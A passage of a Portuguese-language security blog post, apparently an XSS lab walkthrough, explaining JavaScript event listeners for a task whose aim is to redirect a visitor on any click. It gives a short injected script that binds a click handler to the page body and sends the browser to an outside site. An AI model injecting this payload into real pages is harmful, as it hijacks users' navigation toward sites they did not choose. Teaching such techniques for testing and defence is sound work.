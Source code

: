 ![Task 8](/img/posts/2023-06-21-beyond-the-alert-23.png)

#### Objetivo

O objetivo desta *task* é redirecionar o usuário para qualquer outro lugar, sempre que ele efetuar qualquer clique dentro da página.

#### Conhecimento Base

Conforme explorado anteriormente, os *event listeners* são funções chamadas em resposta a um evento específico que ocorre em um elemento. Existem uma infinidade de *event listeners* que podem ser utilizados em vários contextos diferentes.

Com uso de JavaScript, é possível criar *event listeners* atrelados a qualquer elemento HTML com o método `addEventListener()`.

#### Exploração

É possível criar uma função de redirecionamento, e atrelar um *event listener*  ao próprio `body` do documento.

```html
<script>
	function CaughtClick() {
		window.location = "https://h41stur.com";
	}
	document.body.addEventListener('click', CaughtClick, true);
</script>
```
